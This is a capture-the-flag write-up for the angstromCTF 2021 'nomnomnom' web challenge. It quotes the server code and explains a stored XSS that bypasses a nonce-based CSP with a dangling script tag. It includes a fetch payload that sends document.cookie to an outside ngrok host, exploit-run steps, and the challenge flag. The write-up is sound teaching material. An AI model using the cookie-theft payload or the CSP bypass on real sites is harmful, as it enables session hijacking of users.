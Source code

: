 # nomnomnom - angstromCTF 2021

- Category: Web
- Points: 130
- Solves: 113
- Solved by: SM_SC2, drw0if

## Description

I've made a new game that is sure to make all the Venture Capitalists want to invest! Care to try it out?

[NOM NOM NOM (the game)](https://nomnomnom.2021.chall.actf.co/)

[source](dist/deploy.zip)

## Overview

We have a "Snake"-like game that asks for our username and sends it with our score to `/record` when we lose.

![game](pictures/game.png)

Then, we are redirected to `shares/{shareName}` if the score is greater than 1, as we can see from the code:

```javascript
app.post('/record', function (req, res) {
	if (req.body.name > 100) {
		return res.status(400).send('your name is too long! we don\'t have that kind of vc investment yet...');
	}

	if (isNaN(req.body.score) || !req.body.score || req.body.score < 1) {
		res.send('your score has to be a number bigger than 1! no getting past me >:(');
		return res.status(400).send('your score has to be a number bigger than 1! no getting past me >:(');
	}

	const name = req.body.name;
	const score = req.body.score;
	const shareName = crypto.randomBytes(8).toString('hex');

	shares[shareName] = { name, score };

	return res.redirect(`/shares/${shareName}`);
})
```

Our username is printed into `/shares/${shareName}` page without any escape. So it's vulnerable to XSS.

```javascript
app.get('/shares/:shareName', function(req, res) {
	// TODO: better page maybe...? would attract those sweet sweet vcbucks
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	const share = shares[req.params.shareName];
	const score = share.score;
	const name = share.name;
	const nonce = crypto.randomBytes(16).toString('hex');
	let extra = '';

	if (req.cookies.no_this_is_not_the_challenge_go_away === nothisisntthechallenge) {
		extra = `deletion token: <code>${process.env.FLAG}</code>`
	}

	return res.send(`
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
function report() {
	fetch('/report/${req.params.shareName}', {
		method: 'POST'
	});
}

document.getElementById('reporter').onclick = () => { report() };
		</script> 
		
	</body>
</html>`);
});
```

username: `<b>test</b>`

![xss](pictures/xss.png)

Also, it prints the flag if we provide `no_this_is_not_the_challenge_go_away` cookie.

If we click on 'Report' button, the page is sent to `/report/{shareName}`

```javascript
app.post('/report/:shareName', async function(req, res) {
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	await visiter.visit(
		nothisisntthechallenge,
		`http://localhost:9999/shares/${req.params.shareName}`
	);
})
```

and is visited through a puppeteer instance by `visiter.js`

```javascript
async function visit(secret, url) {
	const browser = await puppeteer.launch({ args: ['--no-sandbox'], product: 'firefox' })
	var page = await browser.newPage()
	await page.setCookie({
		name: 'no_this_is_not_the_challenge_go_away',
		value: secret,
		domain: 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	// idk, race conditions!!! :D
	await new Promise(resolve => setTimeout(resolve, 500));
	await page.close()
	await browser.close()
}
```

## Solution

We know that `/shares/{shareName}` is vulnerable to XSS and `no_this_is_not_the_challenge_go_away` cookie is accessible from javascript because `httpOnly` is not set.

So, we have to steal the cookie and make a GET request to `/shares/{shareName}`.

To steal the cookie, we have to inject the following script (we are using ngrok as HTTP bin)

```javascript
fetch('https://2f155d482279.ngrok.io?c=' + document.cookie, { mode: 'no-cors' })
```

Unfortunately, the page uses the CSP `script-src` which blocks scripts execution that doesn't have a valid `nonce`.

```html
<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-e45da5b8e5f5f43cc48806aaabdbccfb'">
```

The policy seems correctly implemented, so there is no way to bypass it.

Looking closer at the HTML code, we can see that what we inject is inserted immediately before a script with a valid nonce. So we have to break this script tag and inject our code.

```html
<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <b>test</b>
		<script nonce='07fdcf843e8050eb15575ae4a6135f94'>
function report() {
```

The solution is loading js through the `src` attribute and leave the tag open. In this way, Firefox, trying to fix the code, will interpret the second `<script` as an attribute.

```html
<script src="data:text/javascript,{script}"
```

## Exploits execution

1. Configure exploits with your `http_bin`
2. Run `py ./exploit.py` and take note of the `shareName`
3. Run `py ./report.py {shareName}`
4. Get the cookie value from your HTTP bin
5. Run `py ./getflag.py {shareName} {cookie_value}`
6. Get the flag from the response

![flag](pictures/flag.png)

## Flag

```
actf{w0ah_the_t4g_n0mm3d_th1ng5}
```